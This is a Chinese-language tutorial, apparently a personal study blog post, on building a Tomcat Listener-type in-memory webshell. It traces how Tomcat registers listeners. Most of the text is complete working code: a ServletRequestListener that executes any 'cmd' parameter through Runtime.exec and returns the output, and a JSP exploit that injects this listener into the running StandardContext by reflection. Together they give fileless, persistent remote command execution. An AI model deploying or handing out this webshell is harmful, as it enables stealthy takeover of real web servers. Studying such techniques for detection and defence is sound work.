





# Tomcat-Listener内存马

## 前言

之前学了Filter内存马，现在开始Listener内存马的学习。Listener内存马比Filter内存马简单多了。。。学习自天下大木头师傅的文章。

## Listener构造

Tomcat对于加载优先级是 **listener -> filter -> servlet**，所以Listener优先级最高。

Listener分为以下几种：

- ServletContext，服务器启动和终止时触发
- Session，有关Session操作时触发
- Request，访问服务时触发

肯定是第三种作为内存马。

POC：

```java
package com.feng.listener;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;

import javax.servlet.ServletRequest;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;

@WebListener
public class MemoryListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        ServletRequestListener.super.requestDestroyed(sre);
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        RequestFacade servletRequest = (RequestFacade) sre.getServletRequest();
        Class clazz = servletRequest.getClass();
        try {
            Field requestField = clazz.getDeclaredField("request");
            requestField.setAccessible(true);
            Request req = (Request)requestField.get(servletRequest);
            Response resp = req.getResponse();
            String cmd = req.getParameter("cmd");
            if (cmd!=null) {
                String[] cmds = new String[]{"cmd", "/c", cmd};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                byte[] bcache = new byte[1024];
                int readSize = 0;
                try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
                    while ((readSize =in.read(bcache))!=-1){
                        outputStream.write(bcache,0,readSize);
                    }
                    resp.getWriter().println(outputStream.toString());
                }
            }

        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }

    }
}

```

`requestInitialized`函数中的内容就是我们每次请求的时候Listener会调用的函数，恶意代码写在里面即可，但是问题是如何获取request，参数`ServletRequestEvent sre`的`getServletRequest`方法得到的是`RequestFacade`对象（sout打印出来就可以知道），它的`request`属性就是`Request`，所以反射调用即可。

## Listener的注册

就像Filter内存马一样需要知道tomcat是怎么注册Listener的，在类上打断点然后debug运行：



根据堆栈的调用找到了`listenerStart`：


跟进去，发现就是Listener的注册了。

通过`newInstance()`获取所有的Listener对象：



如果是`instanceof ServletRequestListener`就会添加进`eventListeners`中。



`eventListeners`会被添加进`applicationEventListenersList`




而在真正请求的时候debug，根据堆栈会发现在`fireRequestInitEvent`调用`requestInitialized`：



而`listener`是从`getApplicationEventListeners（）`获取的：

```java
    public Object[] getApplicationEventListeners() {
        return this.applicationEventListenersList.toArray();
    }
```

所以清晰了，只需要把我们的Listener写进`applicationEventListenersList`就行了。比Filter的注册流程简单太多了。。。。

## EXP

```java
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.connector.RequestFacade" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.List" %>
<%@ page import="java.util.concurrent.CopyOnWriteArrayList" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Arrays" %>
<%@ page import="java.util.ArrayList" %><%--
  User: feng
  Date: 2022/3/13
  Time: 13:23
--%>
<%!
    public class MemoryListener implements ServletRequestListener {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
            ServletRequestListener.super.requestDestroyed(sre);
        }

        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            RequestFacade servletRequest = (RequestFacade) sre.getServletRequest();
            Class clazz = servletRequest.getClass();
            try {
                Field requestField = clazz.getDeclaredField("request");
                requestField.setAccessible(true);
                Request req = (Request)requestField.get(servletRequest);
                Response resp = req.getResponse();
                String cmd = req.getParameter("cmd");
                if (cmd!=null) {
                    String[] cmds = new String[]{"cmd", "/c", cmd};
                    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                    byte[] bcache = new byte[1024];
                    int readSize = 0;
                    try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
                        while ((readSize =in.read(bcache))!=-1){
                            outputStream.write(bcache,0,readSize);
                        }
                        resp.getWriter().println(outputStream.toString());
                    }
                }

            } catch (NoSuchFieldException e) {
                e.printStackTrace();
            } catch (IllegalAccessException e) {
                e.printStackTrace();
            } catch (IOException e) {
                e.printStackTrace();
            }

        }
    }
%>

<%
    MemoryListener memoryListener = new MemoryListener();
    ServletContext servletContext = request.getServletContext();
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext)applicationContextField.get(servletContext);
    Field contextField = applicationContext.getClass().getDeclaredField("context");
    contextField.setAccessible(true);
    StandardContext standardContext = (StandardContext)contextField.get(applicationContext);

    System.out.println(standardContext);
    Object[] applicationEventListeners = standardContext.getApplicationEventListeners();
    List<Object> objects = Arrays.asList(applicationEventListeners);
    List<Object> objectsList = new ArrayList<>(objects);
    objectsList.add(memoryListener);
    applicationEventListeners = objectsList.toArray();
    standardContext.setApplicationEventListeners(applicationEventListeners);


%>
```

有2个需要注意的点。

首先是`StandContext`的获取，Filter内存马中已经提到了。

第二个就是这里：

```java
    List<Object> objects = Arrays.asList(applicationEventListeners);
    List<Object> objectsList = new ArrayList<>(objects);
    objectsList.add(memoryListener);
    applicationEventListeners = objectsList.toArray();
```

Java的List不支持add，需要先转成`ArrayList`才行。

别的构造就不是很难了。

